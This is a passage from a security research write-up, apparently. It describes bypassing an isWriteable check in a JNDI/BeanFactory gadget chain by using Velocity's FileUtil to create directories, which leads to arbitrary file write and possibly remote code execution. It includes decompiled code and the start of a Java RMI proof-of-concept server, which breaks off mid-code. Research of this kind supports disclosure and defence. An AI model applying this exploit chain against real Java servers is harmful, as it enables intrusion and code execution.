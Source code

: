 The interesting thing here is that `getParentFile` escapes the single slash (/) at http and then says the directory doesn't exist. If we create the directories `http:/attacker.tld` in the current working directory, we get:

```sh
getParentFile result: http:/attacker.tld/../..
exists: true
isDirectory: true
canWrite: true
isAbsolute: false
```

So, if an attacker has an arbitrary directory creation primitive, then they can pass this check! Once an attacker has passed the check, they are able to reach *[9]* which creates the controlled filename with the `.new` extension added to the end. At *[10]* the attacker controlled write occurs and at *[11]*, the file is renamed to the original name, chomping the `.new` extension.

Since it's possible for an attacker to bypass the `isWriteable` check, they can leverage this to achieve an arbitrary file write which can lead to remote code execution.

### Bypassing isWriteable

Since `BeanFactory` is within the same library we can call any single string argument method on a Java bean. I found one such bean class in the Apache Velocity library that will allow an arbitrary directory to be created: `org.apache.velocity.texen.util.FileUtil`

```java
/*    */ public class FileUtil
/*    */ {
/*    */   public static String mkdir(String s) {
/*    */     try {
/* 43 */       if ((new File(s)).mkdirs()) {
/* 44 */         return "Created dir: " + s;
/*    */       }
/* 46 */       return "Failed to create dir or dir already exists: " + s;
/*    */     }
/* 48 */     catch (Exception e) {
/*    */       
/* 50 */       return e.toString();
/*    */     } 
/*    */   }
```

An attacker of course, can use any other method to create an arbitrary directory or possibly any other library that contains a similar bean.

## Proof of Concept

Two objects are bound to an RMI server. The first will create the directory path required and the second will walk the path to a location on where the attacker wants to place their file. In a real attack, these paths will need to be adjusted.

```java
package com.src.incite.jndi;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.StringRefAddr;
import org.apache.naming.ResourceRef;
import com.sun.jndi.rmi.registry.*;

public class ObjectFactoryServer {
    public static void main(String[] args) throws Exception {
        System.out.println("(+) creating RMI registry on port 1099");
        Registry registry = LocateRegistry.createRegistry(1099);
        // for folder creation
        ResourceRef ref1 = new ResourceRef("org.apache.velocity.texen.util.FileUtil", null, "", "", true, "org.apache.naming.factory.BeanFactory",null);
```